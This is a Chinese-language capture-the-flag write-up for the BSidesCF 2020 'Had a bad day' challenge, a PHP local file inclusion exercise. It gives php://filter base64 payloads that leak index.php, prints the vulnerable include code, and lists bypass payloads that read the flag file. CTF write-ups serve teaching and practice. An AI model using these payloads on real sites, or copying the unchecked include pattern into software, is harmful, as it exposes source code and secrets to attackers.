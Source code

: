 # 原创
：  [BSidesCF 2020]Had a bad day

# [BSidesCF 2020]Had a bad day

#### [BSidesCF 2020]Had a bad day

## 考点

> 
文件包含


## 思路

> 
观察URL：`http://a88b9b8c-25f9-450b-886e-13f241092165.node3.buuoj.cn/index.php?category=meowers`，尝试sql注入测试发现没有效果，报错显示为文件包含知识点，直接访问其他文件没有用，先用伪协议读取 `index.php`源码，再读取flag


## Payload

> 
Payload 读取 index.php：`?category=php://filter/read=convert.base64-encode/resource=index`


```
&lt;html&gt;
  &lt;head&gt;
    &lt;meta charset="utf-8"&gt;
    &lt;meta http-equiv="X-UA-Compatible" content="IE=edge"&gt;
    &lt;meta name="description" content="Images that spark joy"&gt;
    &lt;meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0"&gt;
    &lt;title&gt;Had a bad day?&lt;/title&gt;
    &lt;link rel="stylesheet" href="css/material.min.css"&gt;
    &lt;link rel="stylesheet" href="css/style.css"&gt;
  &lt;/head&gt;
  &lt;body&gt;
    &lt;div class="page-layout mdl-layout mdl-layout--fixed-header mdl-js-layout mdl-color--grey-100"&gt;
      &lt;header class="page-header mdl-layout__header mdl-layout__header--scroll mdl-color--grey-100 mdl-color-text--grey-800"&gt;
        &lt;div class="mdl-layout__header-row"&gt;
          &lt;span class="mdl-layout-title"&gt;Had a bad day?&lt;/span&gt;
          &lt;div class="mdl-layout-spacer"&gt;&lt;/div&gt;
        &lt;div&gt;
      &lt;/header&gt;
      &lt;div class="page-ribbon"&gt;&lt;/div&gt;
      &lt;main class="page-main mdl-layout__content"&gt;
        &lt;div class="page-container mdl-grid"&gt;
          &lt;div class="mdl-cell mdl-cell--2-col mdl-cell--hide-tablet mdl-cell--hide-phone"&gt;&lt;/div&gt;
          &lt;div class="page-content mdl-color--white mdl-shadow--4dp content mdl-color-text--grey-800 mdl-cell mdl-cell--8-col"&gt;
            &lt;div class="page-crumbs mdl-color-text--grey-500"&gt;
            &lt;/div&gt;
            &lt;h3&gt;Cheer up!&lt;/h3&gt;
              &lt;p&gt;
                Did you have a bad day? Did things not go your way today? Are you feeling down? Pick an option and let the adorable images cheer you up!
              &lt;/p&gt;
              &lt;div class="page-include"&gt;
              &lt;?php
                                $file = $_GET['category'];

                                if(isset($file))
                                {
                                        if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
                                                include ($file . '.php');
                                        }
                                        else{
                                                echo "Sorry, we currently only support woofers and meowers.";
                                        }
                                }
                                ?&gt;
                        &lt;/div&gt;
          &lt;form action="index.php" method="get" id="choice"&gt;
              &lt;center&gt;&lt;button onclick="document.getElementById('choice').submit();" name="category" value="woofers" class="mdl-button mdl-button--colored mdl-button--raised mdl-js-button mdl-js-ripple-effect" data-upgraded=",MaterialButton,MaterialRipple"&gt;Woofers&lt;span class="mdl-button__ripple-container"&gt;&lt;span class="mdl-ripple is-animating" style="width: 189.356px; height: 189.356px; transform: translate(-50%, -50%) translate(31px, 25px);"&gt;&lt;/span&gt;&lt;/span&gt;&lt;/button&gt;
              &lt;button onclick="document.getElementById('choice').submit();" name="category" value="meowers" class="mdl-button mdl-button--colored mdl-button--raised mdl-js-button mdl-js-ripple-effect" data-upgraded=",MaterialButton,MaterialRipple"&gt;Meowers&lt;span class="mdl-button__ripple-container"&gt;&lt;span class="mdl-ripple is-animating" style="width: 189.356px; height: 189.356px; transform: translate(-50%, -50%) translate(31px, 25px);"&gt;&lt;/span&gt;&lt;/span&gt;&lt;/button&gt;&lt;/center&gt;
          &lt;/form&gt;

          &lt;/div&gt;
        &lt;/div&gt;
      &lt;/main&gt;
    &lt;/div&gt;
    &lt;script src="js/material.min.js"&gt;&lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;

```

> 
由于只是验证了变量category值中是否有index或者woofers或者meowers，构造Payload：<br/> `php://filter/read=convert.base64-encode/index/resource=flag`<br/> `php://filter/read=convert.base64-encode/woofers/resource=flag`<br/> `php://filter/read=convert.base64-encode/meowers/resource=flag`

